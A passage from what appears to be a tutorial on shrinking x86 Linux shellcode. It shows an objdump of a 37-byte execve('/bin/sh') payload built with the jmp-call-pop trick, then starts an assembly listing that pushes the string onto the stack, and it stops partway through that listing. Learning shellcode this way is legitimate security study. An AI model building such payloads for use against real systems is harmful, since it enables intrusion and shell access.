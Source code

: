 That may seem ok: 37 bytes is pretty short. We can do better, though,
because the shorter the shell code the more easily we can drop it as a
payload.

Using the Stack More Effectively
--------------------------------

Our first target for reducing the size the shell code is to remove the
jmp-call back procedures. Let's look at the objdump of the code to see
how many bytes are used:

``` {.example}
08048060 <_start>:
 8048060: eb 16                 jmp    8048078 <callback>

08048062 <dowork>:
 8048062: 5e                    pop    esi
 8048063: 31 d2                 xor    edx,edx
 8048065: 52                    push   edx
 8048066: 56                    push   esi
 8048067: 89 e1                 mov    ecx,esp
 8048069: 89 f3                 mov    ebx,esi
 804806b: 31 c0                 xor    eax,eax
 804806d: b0 0b                 mov    al,0xb
 804806f: cd 80                 int    0x80
 8048071: 31 db                 xor    ebx,ebx
 8048073: 31 c0                 xor    eax,eax
 8048075: 40                    inc    eax
 8048076: cd 80                 int    0x80

08048078 <callback>:
 8048078: e8 e5 ff ff ff        call   8048062 <dowork>
 804807d: 2f                    das    
 804807e: 62 69 6e              bound  ebp,QWORD PTR [ecx+0x6e]
 8048081: 2f                    das    
 8048082: 73 68                 jae    80480ec <callback+0x74>
```

If you look closely at the `call` instruction, you see that this takes 5
whole bytes! That's simply too many. Let's look for a way to reduce
this.

### Attempt 1

Let's try the strategy where we push all the bytes of the "/bin/sh" onto
the stack, one-by-one, and then the stack pointer will be the address of
the start of the string. Something like this:

``` {.asm}
;;; push_shell_1.asm
SECTION .text           ; Code section
             global _start  ; Make label available to linker
_start:
     xor eax,eax

     push eax       ;\0
     push 0x68      ;h
     push 0x73          ;s
     push 0x2f          ;/
     push 0x6e          ;n
     push 0x69          ;i
     push 0x62          ;b
     push 0x2f          ;/

     mov esi,esp        ; esp is address of "/bin/sh"

```